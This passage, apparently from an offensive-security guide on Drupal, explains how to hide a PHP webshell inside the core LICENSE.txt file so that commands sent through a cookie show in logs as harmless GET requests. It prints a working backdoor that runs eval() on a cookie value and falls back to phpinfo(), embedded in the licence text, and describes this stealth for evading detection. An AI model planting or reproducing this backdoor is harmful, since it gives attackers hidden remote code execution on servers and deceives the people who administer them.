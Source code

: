 Why is this trick cool?

Because once the Webshell (that we’ll call LICENSE.txt ) is dropped onto the Web server, we can transmit our commands via `$_COOKIE` and in the Web server logs, this will show up as a legitimate GET request to a text file.

Why name our Webshell LICENSE.txt?

Simply because if we take the following file, for example [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (which is already present in the Drupal core), we have a file of 339 lines and 17.6 KB in size, which is perfect for adding a small snippet of PHP code in the middle (since the file is big enough).

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

File: Patched LICENSE.txt

```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
    if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
        eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
    } else {
        phpinfo();
    }
}

?>

  10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author
```